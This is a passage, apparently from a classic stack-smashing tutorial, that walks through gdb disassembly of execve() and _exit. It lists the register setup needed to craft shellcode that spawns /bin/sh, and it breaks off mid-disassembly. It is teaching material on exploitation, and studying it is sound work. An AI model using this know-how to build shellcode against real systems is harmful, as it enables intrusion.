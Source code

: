 ------------------------------------------------------------------------------
0x80002bc <__execve>:   pushl  %ebp
0x80002bd <__execve+1>: movl   %esp,%ebp
0x80002bf <__execve+3>: pushl  %ebx

	The procedure prelude.

0x80002c0 <__execve+4>: movl   $0xb,%eax

	Copy 0xb (11 decimal) onto the stack. This is the index into the
	syscall table.  11 is execve.

0x80002c5 <__execve+9>: movl   0x8(%ebp),%ebx

	Copy the address of "/bin/sh" into EBX.

0x80002c8 <__execve+12>:        movl   0xc(%ebp),%ecx

	Copy the address of name[] into ECX.

0x80002cb <__execve+15>:        movl   0x10(%ebp),%edx

	Copy the address of the null pointer into %edx.

0x80002ce <__execve+18>:        int    $0x80

	Change into kernel mode.
------------------------------------------------------------------------------

So as we can see there is not much to the execve() system call.  All we need
to do is:

	a) Have the null terminated string "/bin/sh" somewhere in memory.
	b) Have the address of the string "/bin/sh" somewhere in memory
	   followed by a null long word.
	c) Copy 0xb into the EAX register.
	d) Copy the address of the address of the string "/bin/sh" into the
	   EBX register.
	e) Copy the address of the string "/bin/sh" into the ECX register.
	f) Copy the address of the null long word into the EDX register.
	g) Execute the int $0x80 instruction.

   But what if the execve() call fails for some reason?  The program will
continue fetching instructions from the stack, which may contain random data!
The program will most likely core dump.  We want the program to exit cleanly
if the execve syscall fails.  To accomplish this we must then add a exit
syscall after the execve syscall.  What does the exit syscall looks like?

exit.c
------------------------------------------------------------------------------
#include <stdlib.h>

void main() {
        exit(0);
}
------------------------------------------------------------------------------

------------------------------------------------------------------------------
[aleph1]$ gcc -o exit -static exit.c
[aleph1]$ gdb exit
GDB is free software and you are welcome to distribute copies of it
 under certain conditions; type "show copying" to see the conditions.
There is absolutely no warranty for GDB; type "show warranty" for details.
GDB 4.15 (i586-unknown-linux), Copyright 1995 Free Software Foundation, Inc...
(no debugging symbols found)...
(gdb) disassemble _exit
Dump of assembler code for function _exit:
0x800034c <_exit>:      pushl  %ebp
0x800034d <_exit+1>:    movl   %esp,%ebp
0x800034f <_exit+3>:    pushl  %ebx